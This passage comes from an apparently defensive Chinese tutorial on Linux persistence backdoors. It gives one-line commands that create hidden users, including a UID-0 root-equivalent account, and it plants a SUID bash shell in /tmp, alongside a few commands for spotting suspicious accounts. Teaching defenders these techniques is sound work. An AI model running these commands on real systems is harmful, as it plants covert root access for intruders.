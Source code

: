 # 第4篇：Linux权限维持--后门篇

本文将对Linux下常见的权限维持技术进行解析，知己知彼百战不殆。

**1、一句话添加用户和密码**

添加普通用户：

```text
# 创建一个用户名guest，密码123456的普通用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest

# useradd -p 方法  ` ` 是用来存放可执行的系统命令,"$()"也可以存放命令执行语句
useradd -p "$(openssl passwd -1 123456)" guest

# chpasswd方法
useradd guest;echo 'guest:123456'|chpasswd

# echo -e方法
useradd test;echo -e "123456\n123456\n" |passwd test
```

添加root用户：

```text
# 创建一个用户名guest，密码123456的root用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/test
```

可疑用户排查技巧：

```text
# 查询特权用户特权用户(uid 为0)
[root@localhost ~]# awk -F: '$3==0{print $1}' /etc/passwd
# 查询可以远程登录的帐号信息
[root@localhost ~]# awk '/\$1|\$6/{print $1}' /etc/shadow
# 除root帐号外，其他帐号是否存在sudo权限。如非管理需要，普通帐号应删除sudo权限
[root@localhost ~]# more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"
```

**2、SUID Shell**

Suid shell是一种可用于以拥有者权限运行的shell。

```text
配合普通用户权限使用
cp /bin/bash /tmp/shell
chmod u+s /tmp/shell
```

使用guest用户登录就可疑获取root权限。

![](https://github.com/AppleTu/Emergency-Response-Notes/tree/48fb22e36edcdb442629c501e4581ae846370adf/第三章：权限维持篇/image/privilege-5-1.png)

备注：bash2针对suid做了一些防护措施，需要使用-p参数来获取一个root shell。另外，普通用户执行这个SUID shell时，一定要使用全路径。
